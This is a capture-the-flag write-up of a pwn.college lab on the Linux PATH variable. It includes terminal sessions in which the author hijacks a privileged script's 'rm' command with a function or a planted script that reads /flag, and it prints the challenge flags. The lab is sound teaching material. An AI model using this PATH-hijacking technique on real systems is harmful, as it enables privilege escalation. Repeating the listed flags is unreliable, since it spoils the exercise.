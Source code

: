# Module 12: Pondering paths
## 1. The PATH variable
**Task:** Changing `PATH` of a command.
</br></br>
**Process:** In this task we change the path of a command using `PATH` variable so that the `/challenge/run` command which runs `rm` on the flag will not be able to do that.
</br>
```bash
hacker@path~the-path-variable:~$ PATH="lol"
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: command not found
The flag is still there! I might as well give it to you!
pwn.college{0rLPRruNjjngfBwmdSqVU-VH91C.dZzNwUDLxYTN0czW}
```
**flag:** `pwn.college{0rLPRruNjjngfBwmdSqVU-VH91C.dZzNwUDLxYTN0czW}`
## 3. Setting PATH
**Task:** Changing `PATH` to a different value to invoke a command.
</br></br>
**Process:** Changing path to `/challenge/more_commands/` and running `/challenge/run` command.
</br>
```bash
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{8qwFQjZtOmfQZWc5AR725hrmXyd.dVzNyUDLxYTN0czW}
hacker@path~setting-path:~$
```
**flag:** `pwn.college{8qwFQjZtOmfQZWc5AR725hrmXyd.dVzNyUDLxYTN0czW}`
## 3. Adding Commands
**Task:** Creating a new command and changing its path in such a way in order to not lose the functionality of `cat` and other functions.
</br></br>
**Process:** A lot of trial and error for this one. printed the output of `/flag` onto the `<directory>/win`, changing its permissions to allow the user to execute. changing the path to one which also houses the `cat` command, and then running `/challenge/run`. took me way too much time than what i'd like to admit.
</br>
```bash
hacker@path~adding-commands:~$ mkdir /challenge/more_commands
mkdir: cannot create directory ‘/challenge/more_commands’: Permission denied
hacker@path~adding-commands:~$ mkdir more_commands
hacker@path~adding-commands:~$ echo "cat /flag" > more_commands/win
hacker@path~adding-commands:~$ ls -l more_commands/win
-rw-r--r-- 1 hacker hacker 10 Oct 19 18:04 more_commands/win
hacker@path~adding-commands:~$ chmod u+x more_commands/win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ PATH=$PATH:~/more_commands/
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{c2xe27SjFQT8mVcpSujdY75QR4D.dZzNyUDLxYTN0czW}
hacker@path~adding-commands:~$
```
**flag:** `pwn.college{c2xe27SjFQT8mVcpSujdY75QR4D.dZzNyUDLxYTN0czW}`
## 4. Hijacking Commands 
**Task:** Disrupt the operation of the `/challenge/run` program by creating a malicious command that it will execute
</br></br>
**Process:** Create an `rm.sh` script, make it executable, and set the `PATH` to include the script's directory before running /challenge/run
</br>
_!!!I employed some help from a fellow cryptonite taskphase member for this task. Will try to do this myself again!!!_
```bash
hacker@path~hijacking-commands:~$ rm() { cat /flag;}
hacker@path~hijacking-commands:~$ export -f rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /usr/bin/rm. Executing!
pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}
hacker@path~hijacking-commands:~$
```
_2nd attempt- doing it on my own without using a function._
```bash
hacker@path~hijacking-commands:~$ echo 'cat /flag' > ~/rm
hacker@path~hijacking-commands:~$ chmod +x ~/rm
hacker@path~hijacking-commands:~$ PATH=~/:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker//rm. Executing!
pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}
hacker@path~hijacking-commands:~$
```
**flag:** `pwn.college{U_HG_OsluBksgZUVcP_zPLK9RE4.ddzNyUDLxYTN0czW}`

